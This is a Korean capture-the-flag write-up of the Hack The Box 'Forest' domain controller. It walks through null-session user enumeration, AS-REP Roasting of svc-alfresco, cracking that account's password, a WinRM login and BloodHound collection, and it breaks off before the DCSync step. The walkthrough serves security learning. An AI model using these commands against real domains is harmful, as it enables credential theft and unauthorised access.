# Forest

## Overview

| 항목 | 내용 |
|------|------|
| 머신 이름 | Forest |
| OS | Windows Server 2016 (Domain Controller) |
| 난이도 | Easy |
| 도메인 | htb.local |
| 주요 취약점 | AS-REP Roasting (Kerberos Pre-Authentication 미설정), Account Operators 권한 남용을 통한 DCSync |
| 주요 기술 | Null Session 열거, AS-REP Roasting, Kerberos 해시 크래킹, BloodHound 권한 경로 분석, WriteDACL 기반 DCSync, Pass-the-Hash |

Forest는 별도의 웹 서비스 없이 Active Directory 도메인 컨트롤러 자체를 공략하는 머신이다. 익명(null session)으로 도메인 사용자 목록을 열거한 뒤, Kerberos Pre-Authentication이 비활성화된 서비스 계정 `svc-alfresco`를 대상으로 AS-REP Roasting을 수행해 해시를 획득하고 크래킹한다. 이 계정은 `Account Operators` 그룹 소속이라 임의의 계정을 `Exchange Windows Permissions` 그룹에 추가할 수 있고, 이 그룹이 도메인 객체에 가진 `WriteDACL` 권한을 이용해 DCSync 권한을 부여받는다. 최종적으로 DCSync로 Administrator의 NT 해시를 덤프하고 Pass-the-Hash로 도메인 관리자 권한을 획득한다.

전체 공격은 단일 취약점이 아니라 AD의 권한 위임 구조가 누적되어 만들어진 경로를 따라간다. 각 단계에서 "왜 이 계정인지, 왜 이 그룹인지"를 권한 관계로 설명하는 것이 이 머신의 핵심이다.

---

## Enumeration

### TCP Port Scan

도메인 컨트롤러인지부터 포트 구성으로 판단한다. AD/DC는 특유의 포트 조합(Kerberos, LDAP, SMB, DNS)을 노출하기 때문에 nmap 결과만으로도 성격을 빠르게 특정할 수 있다.

```bash
nmap -sC -sV 10.129.12.27
```



| 포트 | 서비스 | 비고 |
|------|--------|------|
| 53/tcp | DNS (Simple DNS Plus) | 도메인 DNS |
| 88/tcp | Kerberos | **AD 인증 핵심 포트** |
| 135/tcp | MSRPC | |
| 139/445 tcp | NetBIOS / SMB | Windows Server 2016 |
| 389/3268 tcp | LDAP | Domain: `htb.local` |
| 464/tcp | kpasswd | Kerberos 패스워드 변경 |
| 593/tcp | RPC over HTTP | |
| 5985/tcp | WinRM (HTTP) | **원격 셸 획득 경로** |

88(Kerberos) + 389(LDAP) + 445(SMB) 조합으로 이 호스트가 도메인 컨트롤러임이 확정된다. 호스트 정보에서 도메인 `htb.local`, 컴퓨터명 `FOREST`, FQDN `FOREST.htb.local`이 드러난다. 5985(WinRM)가 열려 있다는 점이 중요한데, 유효한 자격증명만 확보하면 Evil-WinRM으로 바로 셸을 얻을 수 있는 경로가 된다.

### /etc/hosts 설정

이후 Kerberos 인증은 호스트명 기반으로 동작하므로 도메인과 FQDN을 hosts에 등록한다. IP만으로 진행하면 Kerberos 단계에서 이름 해석 실패가 발생한다.

```bash
echo "10.129.12.27 htb.local FOREST.htb.local FOREST" | sudo tee -a /etc/hosts
```

### 패스워드 정책 확인 (null session)

본격적인 사용자 열거 전에 패스워드 정책을 먼저 본다. 핵심은 **계정 잠금 임계값(Account Lockout Threshold)** 이다. 이 값이 설정되어 있으면 이후 패스워드 브루트포스나 AS-REP 크래킹 과정에서 계정이 잠길 위험이 있다.

```bash
enum4linux -P -u "" -p "" 10.129.12.27
```



| 항목 | 값 | 의미 |
|------|-----|------|
| Minimum password length | 7 | |
| Password Complexity | Disabled | 단순 패스워드 허용 |
| **Account Lockout Threshold** | **None** | **잠금 없음 → 브루트포스/크래킹 안전** |

Account Lockout Threshold가 `None`이라는 것은 패스워드를 몇 번 틀려도 계정이 잠기지 않는다는 뜻이다. 이후 AS-REP 해시를 오프라인으로 크래킹하는 작업이 안전하게 진행될 수 있음을 미리 확인한 것이다.

### Null Session 허용 확인

`enum4linux -a`로 익명 세션이 허용되는지 확인한다. AD가 인증 없는 SMB/RPC 세션을 허용하면 자격증명 없이도 도메인 사용자·그룹을 열거할 수 있다.

```bash
enum4linux -a -u "" -p "" 10.129.12.27
```



마지막 줄에서 빈 사용자명·빈 패스워드로 세션이 허용됨이 확인된다. 이 null session이 이후 모든 열거의 출발점이다.

### rpcclient — 사용자 계정 플래그(acb) 확인

`enumdomusers`로 도메인 사용자를 열거하면서 각 계정의 `acb`(account control flag) 값을 본다. 이 플래그는 계정의 속성을 비트마스크로 표현하는데, 여기서 노리는 것은 **Pre-Authentication 미설정** 플래그다.

```bash
rpcclient -U "" -N 10.129.12.27
rpcclient $> querydispinfo
```



대부분의 계정은 `acb: 0x00000210`인데, `svc-alfresco`만 `acb: 0x00010210`이다. 차이값 `0x10000`은 `DONT_REQUIRE_PREAUTH` 플래그로, Kerberos Pre-Authentication이 비활성화되어 있다는 의미다. 이것이 AS-REP Roasting의 직접적인 표적이 된다.

### rpcclient — 전체 사용자 RID 열거

공격 대상 사용자 목록(users.txt)을 만들기 위해 전체 사용자명을 확보한다.

```bash
rpcclient $> enumdomusers
```



시스템/서비스 계정(SM_, HealthMailbox, krbtgt 등)을 제외하면 실제 사람 계정은 `sebastien`, `lucinda`, `svc-alfresco`, `andy`, `mark`, `santi` 6명이다.

### LDAP 사용자/OU 구조 확인

LDAP로 사람 계정과 조직 구조(OU)를 교차 확인한다. 계정이 어느 OU에 속하는지는 이후 권한 관계를 이해할 때 맥락이 된다.

```bash
ldapsearch -x -H ldap://10.129.12.27 -b "DC=htb,DC=local" -s sub "(objectClass=person)" sAMAccountName
```



`svc-alfresco`를 포함한 계정들이 `Information Technology` OU 하위에 배치되어 있음이 확인된다. 사용자 목록이 rpcclient 결과와 일치하는 것도 교차 검증된다.

---

## Foothold

### AS-REP Roasting 개념

Kerberos는 정상적으로는 인증 첫 단계(AS-REQ)에서 클라이언트가 자신의 패스워드로 타임스탬프를 암호화해 보내는 **Pre-Authentication**을 요구한다. 이 절차가 비활성화된 계정(`DONT_REQUIRE_PREAUTH`)은 누구든 해당 계정 이름만으로 AS-REP 응답을 받을 수 있고, 그 응답에는 계정 패스워드에서 파생된 암호화 블록이 포함된다. 이 블록을 오프라인으로 크래킹하면 평문 패스워드를 복구할 수 있다. 이것이 AS-REP Roasting이다.

### AS-REP 해시 획득

앞서 확보한 사용자 목록을 파일로 만들고, impacket의 GetNPUsers로 Pre-Auth가 꺼진 계정의 해시를 요청한다. `-no-pass`는 패스워드 없이 AS-REP만 요청한다는 의미다.

```bash
cat > ~/users.txt << 'EOF'
sebastien
lucinda
svc-alfresco
andy
mark
santi
EOF

impacket-GetNPUsers htb.local/ -usersfile ~/users.txt -no-pass -dc-ip 10.129.12.27
```



다른 계정은 모두 `UF_DONT_REQUIRE_PREAUTH set` 이 아니라는 메시지가 뜨고, `svc-alfresco`만 `$krb5asrep$23$...` 형식의 해시를 반환한다. 이는 enumeration 단계에서 확인한 acb 플래그 결과와 정확히 일치한다.

### 해시 크래킹 (john)

획득한 해시를 rockyou.txt로 크래킹한다. john은 krb5asrep 포맷을 자동 인식한다. (VM 메모리 제약으로 hashcat이 불안정할 경우 john이 안정적이다.)

```bash
john ~/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```




| 계정 | 패스워드 |
|------|----------|
| svc-alfresco | `s3rvice` |

### Evil-WinRM 초기 접속

5985(WinRM)이 열려 있고 `svc-alfresco`는 `Remote Management Users` 소속이므로 Evil-WinRM으로 셸을 얻을 수 있다.

```bash
evil-winrm -i 10.129.12.27 -u svc-alfresco -p s3rvice
```



### User Flag

```powershell
type C:\Users\svc-alfresco\Desktop\user.txt
```



---

## Privilege Escalation

### 현재 권한 정찰 — whoami /all

권한 상승 경로를 찾기 위해 현재 계정의 그룹 멤버십과 특수 권한을 확인한다. AD에서는 SeImpersonate 같은 토큰 권한보다 **그룹 멤버십**이 경로를 여는 경우가 많으므로 그룹을 우선 본다.

```powershell
whoami /all
```



`BUILTIN\Account Operators` 멤버십이 핵심이다. Account Operators는 도메인 내 대부분의 그룹(고권한 그룹 제외)에 멤버를 추가/삭제할 수 있는 그룹이다. 이 권한이 이후 공격 체인의 진입점이 된다.



Privileges 섹션에는 SeImpersonate, SeDebug 같은 직접적인 LPE 권한이 없다. 즉 토큰 기반 권한 상승은 불가능하고, 그룹 멤버십 기반 경로로 가야 함이 확정된다.

### BloodHound 데이터 수집

권한 관계를 시각화하기 위해 BloodHound 데이터를 수집한다. 타겟의 .NET 버전 문제로 SharpHound.exe 실행이 어려운 경우, Kali에서 직접 LDAP/SMB로 수집하는 `bloodhound-python`이 안정적이다.

```bash
bloodhound-python -u svc-alfresco -p s3rvice -d htb.local -dc FOREST.htb.local -ns 10.129.12.27 -c All
```



수집된 JSON을 BloodHound CE에 업로드한다. (Kali의 ARM 환경에서 BloodHound 구동이 불안정할 경우, macOS의 Docker 기반 BloodHound CE에서 분석하는 것이 안정적이다.)

### svc-alfresco 노드 분석

업로드 후 `svc-alfresco` 노드를 조회한다. 노드 속성에서 `Do Not Require Pre-Authentication: TRUE`가 확인되어 AS-REP Roasting이 가능했던 이유가 데이터로도 검증된다.

